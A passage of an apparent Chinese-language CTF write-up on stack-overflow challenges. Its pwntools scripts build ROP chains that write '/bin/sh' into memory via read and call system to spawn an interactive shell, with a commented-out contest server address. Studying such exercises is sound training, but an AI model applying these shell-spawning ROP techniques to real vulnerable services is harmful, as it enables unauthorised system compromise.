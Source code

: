 44:no_binsh_64

​	64位栈溢出,与之前的区别在于需要用寄存器传入/bin/sh的地址给_system使用.另外注意栈对齐.

45:no_binsh_32

​	和64位的主要区别在于不需要寄存器传参了,参数直接跟在函数后面就行.

46:real_no_64

​	这题题目程序中没有了/bin/sh字符串,但是system依旧存在,所以我们可以使用read函数向某一处地址写入/bin/sh,然后以这个地址为参数调用system

​	代码:

```python
#从这题开始,我用了网盘里配好环境的虚拟机
from capstone import *
_backdoor=0x40123E
pop_rdi=0x401238
pop_rsi=0x40123a
_system=0x401080
s=0x403490
_read=0x401090
pop_rdx=0x40123C
_ret=0x40101A
from pwn import *
context(os='linux',log_level = 'debug')
#r=remote("contest.ctf.nefu.edu.cn",33308)
r=process("./pwn")
gdb.attach(r)
pause()
payload=b'a'*40+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(s)+p64(pop_rdx)+p64(255)+p64(_read)+p64(pop_rdi)+p64(s)+p64(_system)

r.recvuntil("one \n")

r.sendline(payload)
#pause()
r.sendline(b'/bin/sh')
r.interactive()
```

47:real_no_32

​	应该和real_no_64没有太大的区别

​	代码:

```python
from pwn import *
#system 80490B0
#need_len=32
#s=804B37C
#read=8049090
#ret=0x804900e
payload=b'a'*32+p32(0x8049090)+p32(0x80490B0)+p32(0)+p32(0x804B37C)+p32(255)+p32(0x804B37C)

#r=remote("contest.ctf.nefu.edu.cn",33328)

r=process("./pwn")
gdb.attach(r)
pause()
print(r.recvuntil("e \n"))
r.sendline(payload)
r.sendline(b'/bin/sh')
r.interactive()
```
